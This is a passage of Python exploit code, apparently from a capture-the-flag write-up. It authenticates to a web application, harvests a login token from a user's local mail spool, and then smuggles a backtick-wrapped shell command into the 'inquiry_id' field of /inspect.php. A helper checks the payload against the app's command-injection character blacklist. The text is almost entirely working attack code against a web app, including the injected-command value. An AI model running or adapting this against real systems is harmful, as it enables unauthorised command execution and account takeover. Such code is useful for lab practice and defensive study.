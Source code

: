 ```py
    data = {'email': email, 'password': password}
    resp = requests.post(url + '/auth.php', data=data)
    if json.loads(resp.text)["success"]:
        print("...",resp.text)
        return True
    else:
        return False

# Extract received token from "/var/mail/tristan"
def extract_token_from_mail(file_path):
    with open(file_path, 'r') as f:
        mail_content = f.read()
    urls = findall(r'http://[a-z0-9.-]+/auth\.php\?token=[a-zA-Z0-9]+', mail_content)
    if urls:
        url = urls[-1]
        print("...", url)
        parsed_url = urlparse(url)
        params = parse_qs(parsed_url.query)
        token = params['token'][0]
        return token
    else:
        return None

# Command injection black listed chars
def check_blacklist_chars(input_string):
    blacklist = '$<>;|&\{\}()[]\'"'
    for char in blacklist:
        if char in input_string:
            return True
    return False

# Run command injection from "/inspect.php"
def inspect_mailroom(url, cmd, email, password, mail):
    session_file = 'session.pickle'
    if os.path.exists(session_file):
        print("...", session_file, "Found!")
        with open(session_file, 'rb') as f:
            session = pickle.load(f)
    else:
        session = requests.Session()
        print("...", session_file, "Not Found, Creating new session")
        if send_auth_token(url=url, email=email, password=password):
            print("... Waiting for token to be received in the mail")
            sleep(10)
            token = extract_token_from_mail(mail)
            print("[+] New Token:", token)
            session.get(f"{url}/auth.php?token={token}")
        else:
            exit("[!] Login Failed!")

    data = {"inquiry_id": f"`{cmd}`"}
    resp = session.post(f"{url}/inspect.php", data=data, timeout=10)

    if "Inquiry contents parsing failed" not in resp.text:
        print("[!] Command execution failed!")
        return False

    with open(session_file, 'wb') as f:
        pickle.dump(session, f)
    
    print("[+] Command executed in the webapp container.")
    return True

```